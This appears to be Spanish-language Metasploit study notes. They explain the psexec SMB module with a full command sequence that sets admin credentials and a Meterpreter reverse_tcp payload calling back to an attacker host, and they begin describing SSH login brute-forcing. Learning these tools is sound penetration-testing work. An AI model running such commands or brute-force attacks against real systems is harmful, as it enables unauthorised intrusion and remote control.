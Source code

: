 				- **Módulo**: `exploit/windows/smb/psexec`
				- **Nombre**: SMB Admin Shell (psexec)
			- ### Opciones Principales
				
				1. **RHOSTS**: Especifica la dirección IP o el rango de IPs del objetivo.
				2. **SMBUser** y **SMBPass**: Las credenciales de usuario y contraseña de un usuario con permisos administrativos en el sistema de destino.
				3. **SMBDomain**: El dominio al que pertenece el sistema de destino. Si es un equipo en grupo de trabajo, puedes dejarlo vacío.
				4. **PAYLOAD**: El payload que deseas ejecutar. Por defecto, suele utilizarse `windows/meterpreter/reverse_tcp`, pero se puede cambiar a otro payload según el objetivo.
				5. **LHOST** y **LPORT**: Dirección IP y puerto local donde Metasploit espera la conexión inversa del payload.
				6. **RPORT**: El puerto del servicio SMB en el equipo de destino, normalmente el puerto 445.
				7. **SERVICE_START_NAME** y **SERVICE_START_PASS**: Opcionalmente, puedes especificar otra cuenta de servicio si el sistema de destino lo requiere para ejecutar el servicio remoto.
			- ### Ejemplo de Configuración

				- Un ejemplo básico para ejecutar este módulo es:
					```
						use exploit/windows/smb/psexec 
						set RHOSTS 192.168.1.10
						set SMBUser administrador
						set SMBPass contraseña123
						set PAYLOAD windows/meterpreter/reverse_tcp
						set LHOST 192.168.1.5 set LPORT 4444 run
					```

				- En este ejemplo:

					- El módulo se conecta a **192.168.1.10** usando la cuenta de administrador.
					- Ejecuta un **payload de Meterpreter** que se conecta de vuelta a la máquina atacante en **192.168.1.5** en el puerto **4444**.

			- ### Requisitos y Consideraciones
				
				- **Credenciales Administrativas**: Es necesario tener credenciales válidas con permisos de administrador en el sistema de destino. Sin esto, el ataque no tendrá éxito.
				- **Antivirus y EDR**: Este método es detectado con frecuencia por software de seguridad como antivirus y EDR (Endpoint Detection and Response). En entornos protegidos, es posible que se necesiten técnicas de evasión adicionales.
				- **Firewall**: El puerto 445 debe estar accesible desde la máquina atacante. Si hay un firewall bloqueando este puerto, el ataque fallará.

			- ### Mecanismo de Ejecución
				
				1. **Conexión a SMB**: El módulo `psexec` se conecta al servicio SMB del sistema de destino.
				2. **Carga de Payload**: Utiliza el servicio SMB para copiar el payload o ejecutable en el equipo de destino.
				3. **Ejecución del Payload**: Crea un servicio temporal en el sistema de destino para ejecutar el payload. Este servicio suele eliminarse después de la ejecución.
				4. **Establecimiento de Sesión**: Una vez ejecutado, el payload, como `Meterpreter`, establece una sesión de comunicación inversa con el equipo atacante, permitiendo acceso remoto.
	- ## SSH:
		- **Escaneo de fuerza bruta en el loguin:
			- El módulo `auxiliary/scanner/ssh/ssh_login` en Metasploit es una herramienta que se utiliza para realizar un ataque de fuerza bruta contra el servicio SSH de un servidor. Su objetivo es intentar adivinar las credenciales (combinaciones de nombre de usuario y contraseña) necesarias para iniciar sesión en el servidor mediante SSH.
			### Características del Módulo `ssh_login`
			- **Ataque de Fuerza Bruta**: El módulo `ssh_login` intenta múltiples combinaciones de nombres de usuario y contraseñas para tratar de obtener acceso a un servidor SSH. Puede utilizar tanto listas predefinidas de credenciales como listas personalizadas que el usuario proporcione.
		    - **Conexión a Múltiples Objetivos**: Este módulo puede escanear múltiples direcciones IP o rangos de IP para encontrar servidores SSH y probar credenciales en todos ellos.